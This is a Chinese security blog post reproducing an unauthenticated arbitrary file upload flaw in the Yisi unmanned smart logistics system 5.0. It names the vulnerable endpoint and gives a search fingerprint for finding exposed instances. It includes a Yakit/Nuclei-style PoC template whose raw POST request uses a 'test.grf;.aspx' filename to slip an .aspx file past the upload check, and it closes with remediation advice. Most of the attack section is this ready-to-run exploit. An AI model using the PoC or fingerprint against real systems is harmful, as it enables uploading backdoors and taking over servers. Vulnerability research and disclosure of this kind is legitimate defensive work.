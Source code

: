 # 原创
：  【漏洞复现】易思智能物流无人值守系统文件上传

# 【漏洞复现】易思智能物流无人值守系统文件上传

> 
公众号：掌控安全EDU 分享更多技术文章，欢迎关注一起探讨学习


**目录**

[【产品介绍】](#%E3%80%90%E4%BA%A7%E5%93%81%E4%BB%8B%E7%BB%8D%E3%80%91)

[【漏洞描述】](#%E3%80%90%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0%E3%80%91)

[【影响范围】](#%E3%80%90%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4%E3%80%91)

[【指纹】](#%E3%80%90%E6%8C%87%E7%BA%B9%E3%80%91)

---


### 【产品介绍】

---


易思无人值守智能物流系统是一款集成了人工智能、机器人技术和物联网技术的创新产品。它能够自主完成货物存储、检索、分拣、装载以及配送等物流作业，帮助企业实现无人值守的智能物流运营，提高效率、降低成本，为现代物流行业带来新的发展机遇。

### 【漏洞描述】

---


易思无人值守智能物流系统/Sys_ReportFile/ImportReport接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

### 【影响范围】

---


易思智能物流无人值守系统5.0

### 【指纹】

---


web.body=”智能物流无人值守系统”

**【Poc检测】 **

<img alt="" height="356" src="https://img-blog.csdnimg.cn/ff4ec047ec084516a38f82f6f0c1a961.png" width="1080"/>** 【验证】 **

<img alt="" height="90" src="https://img-blog.csdnimg.cn/1881cf6ac07d4a4db47ccb1d158a38da.png" width="640"/>【Yakit Poc自动化验证】 

 <img alt="" height="420" src="https://img-blog.csdnimg.cn/36cb698e99d34043af9247553626ee6f.png" width="754"/>

```
id: Yisi-upload

info:
  name: Yisi-upload
  author: hack
  severity: info
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |
        POST /Sys_ReportFile/ImportReport?encode=hack HTTP/1.1
        Host: {{Hostname}}
        X-File-Name: test.grf
        User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzUhGld6cusN3Alk
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        Content-Length: 207

        ------WebKitFormBoundaryxzUhGld6cusN3Alk
        Content-Disposition: form-data; name="file"; .filename="test.grf;.aspx"
        Content-Type: application/octet-stream

        test
        ------WebKitFormBoundaryxzUhGld6cusN3Alk--

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - Custom
      - type: status
        status:
          - 200
```

 **【修复建议】**

---


对上传文件的类型、大小、文件名等进行验证，确保只允许上传合法的文件类型，并限制文件大小和文件名的长度。可以使用白名单或黑名单的方式进行验证。

及时关注和应用厂商发布的安全补丁和更新，修复已知的文件上传漏洞。

**没看够~？欢迎关注！**

  
